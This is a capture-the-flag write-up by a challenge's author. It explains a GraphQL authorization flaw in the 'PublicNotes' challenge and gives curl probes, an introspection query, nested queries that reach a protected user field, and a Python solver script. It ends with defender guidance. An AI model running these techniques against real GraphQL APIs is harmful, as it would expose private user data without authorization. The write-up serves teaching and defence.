

> **PublicNotes** was created by me for **UTAR CyberHunt 2026** (the UTAR-FICT 3rd Intervarsity CTF, 18 July 2026), Web category, Medium. This is the intended solution with a GraphQL primer baked in, so it works even if you've never touched GraphQL before. Its sibling challenge, **ThreadJack**, has [its own writeup](/posts/utar-cyberhunt-2026-threadjack/).
{: .prompt-info }

Hello again! Second of the two Web challenges I wrote for UTAR CyberHunt 2026. Where ThreadJack was a server-side RCE, PublicNotes is quieter — it's about reading data the app was sure it had locked away. No RCE, no bot, no login. Just a schema and the willingness to follow a chain of references.

Flag: `cyber26{gr4phQL_d33p_n3st3d_1ntr0sp3ct10n_ftw}`.

## Challenge Description

> Name: PublicNotes
>
> Category: Web
>
> Difficulty: Medium
>
> Our company just launched a public knowledge base powered by some fancy new API technology. We made sure the confidential notes are locked down — only admins can see those. But maybe we missed something? Sometimes the most interesting data is just a few connections away...

## 1. A 60-second GraphQL primer

If you already know GraphQL, skip to section 2. If not, here's what you need.

A REST API has **many URLs, each returning a fixed shape** — `/users/5`, `/users/5/notes`, and so on. GraphQL flips that: **one URL**, and the *client* describes the exact shape it wants in the request body. The server exposes a **schema** — a set of types with typed fields — and a **resolver** function behind each field that knows how to fetch it.

The key mental model is in the name: it's a **graph**. Types point at other types. A `Note` has an `author` field of type `User`; a `User` has fields of its own; a `Tag` has a `managedBy` of type `User` too. A query is a path (or a tree of paths) through that graph:

```graphql
{
  publicNotes {          # a list of Note
    title                # scalar field on Note
    author {             # -> follow the edge to User
      username           # scalar field on User
    }
  }
}
```

The server runs `publicNotes`'s resolver, then for each note runs `author`'s resolver, then for each author runs `username`'s resolver. **Each field is resolved independently**, and — this matters — each resolver typically returns a *whole record* and lets the field resolvers pick from it.

That independence is the whole challenge. Authorisation that's enforced on one *entry point* into the graph doesn't automatically apply to the same data reached by a different path.

## 2. Finding the API

PublicNotes looks like a normal knowledge base — notes with an author, a category, tags.


The frontend is one minified script. In the network tab, every data load is:

```
POST /api/v2/data
{ "query": "...", "variables": { ... } }
```

The endpoint is named `/api/v2/data` to look like a boring REST route, but that `{ query, variables }` body shape is unmistakably GraphQL. Confirm with the smallest possible query:

```bash
curl -s http://TARGET/api/v2/data -H 'Content-Type: application/json' -d '{"query":"{__typename}"}'
# {"data":{"__typename":"Query"}}
```

`__typename` is a meta-field GraphQL answers for any type. Getting `"Query"` back means yes, this is GraphQL, and the root type is called `Query`.

## 3. Introspection — asking the schema to describe itself

GraphQL has a built-in reflection system. Special meta-fields `__schema` and `__type` let a client ask the server for its **entire type system** — every type, every field, every argument. It's what powers autocomplete in GraphQL IDEs and codegen tools. Servers can turn it off in production (Apollo does by default); this one leaves it on (`introspection: true`).

The standard introspection query is long, but a trimmed version is enough here:

```graphql
{
  __schema {
    types {
      name
      fields { name type { name kind ofType { name kind } } }
    }
  }
}
```


Boiling the response down to the parts that matter:

```
Query:    publicNotes, confidentialNotes, searchNotes, auditLogs, activeSessions
Mutation: submitFeedback, authenticate
Note:     id, title, content, isPublic, author: User, category: Category, tags: [Tag]
Category: id, name, createdBy: User
Tag:      id, label, managedBy: User
User:     id, username, displayName, role, internalNote      <-- 👀
```

`User.internalNote` is obviously the prize. The question is how to reach a `User` we're not authorised to see.

> Even if introspection were **off**, this challenge would still be solvable — you'd just fingerprint the schema by hand (error messages leak valid field names, and tools like `clairvoyance` automate it). Introspection being on is a convenience, not the vulnerability. Turning it off is defence-in-depth, not a fix.
{: .prompt-tip }

## 4. The red herrings

The schema dangles several "intended-looking" paths, and every one is a dead end. Reading the resolvers (`server.js`) makes that clear:

- **`confidentialNotes`, `auditLogs`, `activeSessions`** — each resolver starts with `if (!context.isAdmin) throw new AuthenticationError(...)`. `context.isAdmin` is only true when the request carries `Authorization: Bearer <ADMIN_TOKEN>`, and `ADMIN_TOKEN` is `crypto.randomBytes(32)` generated at boot. Not brute-forceable.
- **The `authenticate(username, password)` mutation** — it does a random 100–300 ms sleep (looks like a timing side-channel!) and then **unconditionally** returns `{ success: false }`. Pure bait. There is no login to defeat.
- **A query depth limit** — a custom Apollo plugin walks each operation's selection set and throws if it nests deeper than **5**. We'll come back to why that's here.

All of that is misdirection. The real path doesn't touch any admin-gated query.

## 5. The real bug — authorization on the query, not on the field

`confidentialNotes` is locked. But the sensitive **field**, `User.internalNote`, has no check on it at all — and `User` is reachable from `publicNotes` by following edges:



Look at the field resolvers:

```javascript
Note: {
    author:   (note)     => users.find(u => u.id === note.authorId),
    category: (note)     => categories.find(c => c.id === note.categoryId),
    tags:     (note)     => tags.filter(t => note.tagIds.includes(t.id)),
},
Tag:      { managedBy: (tag)      => users.find(u => u.id === tag.managedById) },
Category: { createdBy: (category) => users.find(u => u.id === category.createdById) },
```
{: file="server.js" }

Every one of them returns the **entire user record**. `internalNote` is a field on that record, so once you've reached a `User` through *any* edge, you can ask for it. Nothing checks whether *this* requester should see *this* user's note.

So we walk the public notes into the users behind them:

```graphql
{
  publicNotes {
    title
    author   { username internalNote }
    category { name createdBy { username internalNote } }
    tags     { label managedBy  { username internalNote } }
  }
}
```

The deepest path here is `publicNotes → tags → managedBy → internalNote` — **depth 4**, one under the limit of 5. (That's why the limit is 5 and not 3: the intended solution has to fit. The limit exists to stop denial-of-service queries like `author{author{author{...}}}`, not to enforce authorization — it's a speed bump dressed up as a wall.)

The flag belongs to **`svc_notes`**, an `admin` service account that manages the `deployment` tag. That tag is attached to public notes like "Deployment Checklist" and "CI/CD Pipeline Overview", so `publicNotes → tags(deployment) → managedBy(svc_notes) → internalNote` delivers:

→ **Flag** → `cyber26{gr4phQL_d33p_n3st3d_1ntr0sp3ct10n_ftw}`

```python
#!/usr/bin/env python3
import re, requests, sys

URL = (sys.argv[1] if len(sys.argv) > 1 else "http://localhost:3000") + "/api/v2/data"
query = """
{ publicNotes {
    author   { username internalNote }
    category { createdBy { username internalNote } }
    tags     { managedBy  { username internalNote } }
} }"""
data = requests.post(URL, json={"query": query}).json()
print(re.search(r"cyber26\{[^}]+\}", str(data)).group(0))
```

## What to take away

This is **OWASP API Security Top 10** material — specifically *API1: Broken Object Level Authorization* and *API3: Broken Object Property Level Authorization* (the one people used to call "excessive data exposure"). GraphQL makes it especially easy to get wrong because **types are shared**. `User` shows up behind `author`, `createdBy`, `managedBy`, `auditLogs.user`, `activeSessions.user` — five entry points. Guard one and you've guarded one.

**For attackers:** with GraphQL, always start with introspection (or infer the schema if it's off), then look for a **sensitive field on a widely-referenced type**. The path in is usually through the boring public query, two or three hops deep. Watch for depth/complexity limits and plan your query to fit under them.

**For defenders:**

1. **Enforce authorization at the field/type level, not just the root query.** Put the check on `User.internalNote` itself — with a schema directive (`@auth`, `@requiresScopes`), a library like `graphql-shield`, or logic in that specific resolver. Don't assume "the admin query is locked" covers the data.
2. **Don't expose sensitive fields on shared types.** Split `User` into a public `UserProfile` (username, displayName) and an internal type that only privileged resolvers return.
3. **Resolvers should return only what the next layer needs**, not whole records — so a leaked edge leaks less.
4. **Keep the depth *and* complexity *and* amount limits** — but treat them as DoS controls, never as authorization.
5. Turn off introspection in production and disable field suggestions in error messages — defence-in-depth, buying time, not a fix.
6. Consider **persisted queries** (an allowlist of known-good query documents) for first-party clients, so arbitrary ad-hoc queries can't be sent at all.

Two challenges, one lesson from two directions: **locking the obvious door doesn't help if the same thing is reachable another way** — through EJS options in [ThreadJack](/posts/utar-cyberhunt-2026-threadjack/), through a shared type here.

Thanks to everyone who played UTAR CyberHunt 2026 — these were a lot of fun to build. Till the next one, ciao!
